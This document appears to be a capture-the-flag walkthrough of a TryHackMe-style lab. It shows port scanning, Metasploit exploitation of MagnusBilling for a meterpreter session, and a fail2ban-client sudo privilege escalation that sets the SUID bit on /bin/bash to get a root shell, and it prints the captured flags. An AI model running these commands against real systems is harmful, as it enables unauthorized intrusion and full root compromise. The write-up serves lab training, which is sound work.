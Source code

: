 #### Target Ip :  10.201.76.54

-----------

# Scanning using RustScan 

rustscan -a 10.201.76.54 -- -sC -sV 

![[Pasted image 20251025174816.png]]

We found open ports :  

Open 10.201.76.54:22  
Open 10.201.76.54:80
Open 10.201.76.54:3306
Open 10.201.76.54:5038

![[Pasted image 20251025183606.png]]

These are the service running on the server.

----------------
Then we found a exploit on msf console and the service was MagnusBilling


msf > search MagnusBilling

![[Pasted image 20251025183737.png]]

msf > use 0

msf >show options

![[Pasted image 20251025184034.png]]

msf >set RHOSTS 10.201.89.202

msf >set LHOST 10.17.17.19

msf >run

#### Now we get the meterpreter session 

--------------------------
# Now lets find the user.txt Flag


![[Pasted image 20251025184353.png]]

Then back to the home directory 

Found total 3 users 

![[Pasted image 20251025184711.png]]

So finally in the magnus user i found the user.txt flag

## FLAG : THM{4a6831d5f124b25eefb1e92e0f0da4ca}


----------------
# Now lets find the root.txt Flag

To do that we have to escalate priviellage

check which service we can use under sudo permission . Before that change the meterpreter shell to normal shell.

meterpreter > shell

sudo -l

![[Pasted image 20251025190512.png]]

we found fail2bn service that have sudo permission......

**fail2ban :** Fail2ban is an open-source intrusion prevention software for Linux that protects servers from brute-force attacks by monitoring log files for suspicious activity and automatically banning malicious IP addresses.

lets exploit these service !!!!!!!!!!

we found a exploit on https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/fail2ban-command/

# Investigation

sudo -l

# Output:

(ALL) NOPASSWD: /usr/bin/fail2ban-client

**If we can execute fail2ban-client command as root, we may be able to escalate privilege and gain a root shell.**

# Exploit : 

## step 1:
### Get jail list

```
sudo /usr/bin/fail2ban-client status
```

## step 2 : 

```
# Choose one of the jails from the "Jail list" in the output.

sudo /usr/bin/fail2ban-client get <JAIL> actions

# Create a new action with arbitrary name (e.g. "evil")

sudo /usr/bin/fail2ban-client set <JAIL> addaction evil

# Set payload to actionban

sudo /usr/bin/fail2ban-client set <JAIL> action evil actionban "chmod +s /bin/bash"

# Trigger the action

sudo /usr/bin/fail2ban-client set <JAIL> banip 1.2.3.5

# Now we gain a root

/bin/bash -p

```

![[Pasted image 20251025191756.png]]

Finnaly we got the root access.Now lest find the root.txt flag

![[Pasted image 20251025192042.png]]

## FLAG : THM{33ad5b530e71a172648f424ec23fae60}

-----------------------------

<p style="text-align: center;">THANK YOU </p>






